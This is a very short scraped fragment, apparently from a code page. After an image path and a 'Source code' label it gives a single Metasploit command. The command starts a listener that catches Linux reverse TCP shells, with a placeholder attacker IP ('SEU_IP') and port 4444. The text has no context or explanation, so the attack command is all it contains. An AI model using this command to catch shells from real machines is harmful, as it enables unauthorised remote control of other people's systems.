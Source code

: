 msfconsole -q -x "use multi/handler; set payload linux/x64/shell/reverse_tcp; set LHOST SEU_IP; set LPORT 4444; run"

